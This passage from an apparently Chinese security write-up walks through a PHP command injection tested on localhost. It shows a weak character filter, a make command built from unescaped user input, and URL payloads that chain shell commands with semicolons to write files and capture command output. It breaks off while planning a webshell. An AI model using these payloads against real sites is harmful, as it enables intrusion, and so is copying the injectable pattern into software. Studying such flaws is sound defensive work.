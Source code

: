 下图是本地测试，被过滤的字符：

```
 $file = ereg_replace("\\||\\:|\\.","_",$id);   

```

这里的| 以及.都被替换成_(下横)出现`// \\`路径符号则提示Not current directory(非当前目录)

![2014030416065776275.jpg](http://drops.javaweb.org/uploads/images/12dbb9de222bad9741780611e8b0c4a80cd8213e.jpg)

```
die('make -i -f skriptit/Makefile DOT\_EXEC=bin/ SCRIPTDIR=skriptit/ PICNAME='.$file.' htmlcheck dot2png dot2png\_large dot2pdf'); 

```

die 打印结果看看：

![2014030416114563586.png](http://drops.javaweb.org/uploads/images/109f8a12717a4b324b9096ba137cab0e932030b8.jpg)

打印结果可以得知

```
aaaaa, '`

```

都能带入而且;(分号)也成功执行那么就有意思了,构造语句就是:

```
http://localhost/test.php?id=aaaa;echo test >aaa

```

成功写入当前目录.

![2014030416123189624.png](http://drops.javaweb.org/uploads/images/d222edd79e9d2c33e7071214cc8a60bb758a6ef9.jpg)

当然,还可以执行命令,也同样把命令执行结果写入文件得到回显.

```
http://localhost/test.php?id=aaaa;id >aaa; 

```

注意末尾多加了一个;(分号)截断了后面多余的东西.

![2014030416131320282.png](http://drops.javaweb.org/uploads/images/5ec925bc03b25590b5809851a34ee0ece5446493.jpg)

接下就是写shell，理清一下思路:

```
$file = ereg_replace("\\||\\:|\\.","_",$id); 

```

| 以及.都被替换成_(下横)，出现`// \\`路径符号则提示Not current directory(非当前目录)，写shell 需要.(点)加后缀 ,如果直接写文件
